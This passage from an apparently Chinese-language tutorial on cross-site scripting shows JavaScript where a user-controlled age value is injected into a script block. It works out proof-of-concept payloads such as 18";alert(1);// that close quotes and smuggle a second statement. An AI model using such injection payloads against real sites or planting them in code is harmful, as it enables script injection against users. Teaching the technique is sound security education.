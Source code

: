 ```javascript
    <script type = "text/javascript">

        var obj = new Object();
        obj.name = "华仔";
        obj.age = 18;alert(1); //插入payload 18;alert(1);

        obj.fun = function (){
            alert("姓名：" + this.name + ",年龄：" + this.age);
        }

        //alert(obj.name);        
        obj.fun();               
        
    </script>
```
 > 上述POC中可控点在18，输入18;alert(1);即可执行alert(1)，因为js以";"号作为结束。

#### 例子2
```javascript
    <script type = "text/javascript">

        var obj = new Object();
        obj.name = "华仔";
        obj.age = "18"; //可控点在18这个位置，假设参数age=18

        obj.fun = function (){
            alert("姓名：" + this.name + ",年龄：" + this.age);
        }

        //alert(obj.name);        
        obj.fun();               
        
    </script>
```
#### 例子2POC

```javascript
    <script type = "text/javascript">

        var obj = new Object();
        obj.name = "华仔";
        obj.age = "18";alert(1);//" //这里的payload变为 18";alert(1);//

        obj.fun = function (){
            alert("姓名：" + this.name + ",年龄：" + this.age);
        }

        //alert(obj.name);        
        obj.fun();               
        
    </script>
```
 > 上述POC中可控点在18，但是这里有双引号包裹在其中，如果我们需要成功执行alert(1)则需要成功闭合双引号，所以payload更改为`18";alert(1);//`。
